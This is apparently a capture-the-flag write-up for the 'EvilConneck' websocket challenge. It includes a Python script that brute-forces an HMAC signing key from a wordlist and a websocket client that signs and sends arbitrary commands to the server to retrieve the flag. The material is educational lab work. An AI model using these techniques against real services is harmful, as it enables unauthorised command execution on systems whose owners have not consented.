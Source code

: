 ```yaml
---
layout: single
title: EvilConneck CTF Challenge
excerpt: "TBA"
date: 2020-02-01
classes: wide
header:
  teaser: /assets/images/bbsctf-evilconneck/evilconneck.png
  teaser_home_page: true
categories:
  - ctf
  - infosec
tags:
  - websockets
---
```


![](/assets/images/bbsctf-evilconneck/evilconneck.png)

![](/assets/images/bbsctf-evilconneck/challenge.png)

![](/assets/images/bbsctf-evilconneck/objectives.png)

We heard about an evil organization - EvilConneck - that hacks for the bad reasons. Your role today is to infiltrate their system! Our intelligence knows that they are using a new-ish technology but their website seems static and without any security issues! Our intelligence officers also know that they are prone to make errors and not be the best at securing their network stats. We are then expecting you to succeed!

URL: http://18.222.220.65/evilconneck/

![](/assets/images/bbsctf-evilconneck/website1.png)

![](/assets/images/bbsctf-evilconneck/website2.png)

Checking the HTML source code, we can see that there are some comments about debug mode being turned off.

![](/assets/images/bbsctf-evilconneck/debug.png)

## Debug mode enabled

After enabling the debug mode we can see additional javascript being inserted in the page:

![](/assets/images/bbsctf-evilconneck/websocket1.png)

The code is supposed to establish a websocket connection but I'm getting a connection error message when looking at my Firefox console:

![](/assets/images/bbsctf-evilconneck/websocket2.png)

I added `evilconnect` to my local hostfile, resolving it to `18.222.220.65` and I was able to successfully connect after.

Within Burp I can see my client is sending the `uptime` string followed by some base64 encoded data.

![](/assets/images/bbsctf-evilconneck/websocket3.png)

And the response is always `49170.12` and never changes

![](/assets/images/bbsctf-evilconneck/websocket4.png)

## Figuring out the HMAC secret key

The first thing I did next was try to figure what that base64 content is all about and it just decodes to meaningless bytes. Interestingly, the length of the output is 32 bytes so this could be a a hash of some sort.

![](/assets/images/bbsctf-evilconneck/sig1.png)

I tried changing the `uptime` message to something or the content of the base64 and I got the following signature failure message everytime: `Signature failed! - Expected: 'b64(b85(passwd)),base64(hmac256)'`

So it's probably safe to assume at this point that `uptime` is the message for which the signature is calculated. Based on the error message, we know that it's using HMAC with SHA256 for the hash function and that HMAC secret is base85 encoded, then base64 encoded.

To test this theory, I used Python to try to generate the HMAC for the `uptime` message using a wordlist so I can bruteforce the HMAC secret key. At first, I used the following script but I wasn't able to find a match with any wordlist I used, such as `rockyou.txt`:

```python
#!/usr/bin/env python3

import base64
import hashlib, hmac
import progressbar
import sys

c = b"Ji/HQqLPH5KpqzZcYFXRdEHnyn2VI1fqU824IzTzAKs="

progressbar.streams.flush()

with open(sys.argv[1], encoding = "ISO-8859-1") as f:
    passwords = f.read().splitlines()

message = sys.argv[2]

with progressbar.ProgressBar(max_value=len(passwords)) as bar:
    for i, p in enumerate(passwords):        
        secret = base64.b64encode(base64.b85encode(p.strip().encode('utf-8')))
        m = hmac.new(secret, digestmod=hashlib.sha256)
        m.update(message.strip().encode('utf-8'))
        m_b64 = base64.b64encode(m.digest())        
        if c in m_b64:
            print(f"Found password: {p}")
            print(m_b64)
            sys.exit(0)
        bar.update(i)
```

I just enabled padding by adding the `pad=True` statement here:

```python
secret = base64.b64encode(base64.b85encode(p.strip().encode('utf-8'), pad=True))
```

Well, it turns out that secret is a simple one afterall: `secret`

![](/assets/images/bbsctf-evilconneck/secret.png)

## Getting access with websockets

```python3
#!/usr/bin/env python3

import asyncio
import base64
import hashlib, hmac
import readline
import sys
import websockets

secret = b'secret'
secret = base64.b64encode(base64.b85encode(secret, pad=True))

async def hello():
    uri = "ws://evilconneck:64480"
    async with websockets.connect(uri, origin='http://evilconneck') as websocket:
        cmd = input('> ')
        m = hmac.new(secret, digestmod=hashlib.sha256)
        m.update(cmd.encode('utf-8'))
        m_b64 = base64.b64encode(m.digest())        
        x = f"{cmd},{m_b64.decode('utf-8')}"
        await websocket.send(x)        
        r = await websocket.recv()
        print(f"{r.decode('utf-8')}")

while True:
    asyncio.get_event_loop().run_until_complete(hello())
```

Once I found the `help` command, I was quickly able to get the flag. I just needed to issue `hello` command as instructed then `getflag` spit out the flag.

![](/assets/images/bbsctf-evilconneck/flag.png)